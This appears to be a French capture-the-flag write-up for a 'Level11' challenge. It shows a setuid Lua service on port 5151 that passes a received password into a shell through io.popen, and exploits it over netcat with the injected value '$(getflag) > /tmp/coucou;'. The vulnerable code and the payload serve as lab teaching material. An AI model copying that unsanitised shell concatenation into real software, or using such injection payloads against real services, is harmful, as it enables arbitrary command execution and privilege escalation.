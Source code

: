 # Level11

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua

On trouve un script lua

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

```

C'est un programme qui ouvre une connexion et attends un password pour le comparer avec celui hashé
Il utilise la fonction "io.popen" pour la fonction de hash. Cette fonction permet d'executer des programmes. Le programme s'en sert pour executer une commande

	io.popen("echo "..pass.." | sha1sum", "r")

Il execute un echo + le mdp reçu pipé avec sha1sum pour obtenir le hash

On test sa connexion avec netcat

	$ nc localhost 5151
	Password:

Il attend bien le mot de passe

On peut injecter des commandes a executer pour completer sa commande directement dans le mot de passe :

`$(getflag) > /tmp/coucou;`

Le flag se trouve donc dans le fichier "/tmp/coucou"
